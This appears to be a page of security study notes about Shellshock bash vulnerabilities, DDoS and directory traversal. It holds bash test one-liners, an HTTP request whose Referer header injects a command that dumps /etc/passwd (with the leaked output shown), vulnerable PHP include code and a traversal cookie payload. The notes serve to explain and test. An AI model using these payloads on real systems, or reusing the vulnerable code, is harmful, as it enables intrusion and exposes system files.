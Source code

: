 Security
-

#### ~~Shellshock (bashdoor, CVE-2014-6271)~~

````sh
# CVE-2014-6271
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"

# CVE-2014-7169
env X='() { (a)=>\' bash -c "echo date"; cat echo

# CVE-2014-7186
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' ||
echo "CVE-2014-7186 vulnerable, redir_stack"

# CVE-2014-7187
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
````

````sh
GET http://shellshock.testsparker.com/cgi-bin/netsparker.cgi HTTP/1.1
User-Agent: Netsparker
Host: shellshock.testsparker.com
Referer: () { :;}; echo "NS:" $(</etc/passwd)

HTTP/1.0 200 OK
Server: nginx/1.2.1
Date: Fri, 26 Sep 2014 11:22:43 GMT
Content-Type: text/html
NS: root:x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/bin/sh
bin: x:2:2:bin:/bin:/bin/sh
sys: x:3:3:sys:/dev:/bin/sh
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/bin/sh
man: x:6:12:man:/var/cache/man:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
mail: x:8:8:mail:/var/mail:/bin/sh
news: x:9:9:news:/var/spool/news:/bin/sh
uucp: x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy: x:13:13:proxy:/bin:/bin/sh
www-data: x:33:33:www-data:/var/www:/bin/sh
backup: x:34:34:backup:/var/backups:/bin/sh
list: x:38:38:Mailing List Manager:/var/list:/bin/sh
irc: x:39:39:ircd:/var/run/ircd:/bin/sh
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid: x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim: x:101:103::/var/spool/exim4:/bin/false
messagebus: x:102:106::/var/run/dbus:/bin/false
avahi: x:103:107:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
sshd: x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql: x:105:111:MySQL Server,,,:/nonexistent:/bin/false
Connection: close
````

#### DDos (Denial-of-service attack)

A distributed DDoS is a cyber-attack where the perpetrator uses more than one unique IP address,
often thousands of them.

Distributed autoscale systems may try to cope with DDoS.

#### Directory (path) traversal attack

AKA: ../ (dot dot slash) attack.
AIM: gain unauthorized access to the file system.

It is exploiting insufficient security validation / sanitization of user-supplied input file names.

````php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE']))
   $template = $_COOKIE['TEMPLATE'];
include ("/home/users/phpguru/templates/" . $template);
````
````
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
````

FIX: Query string is usually URI decoded before use.

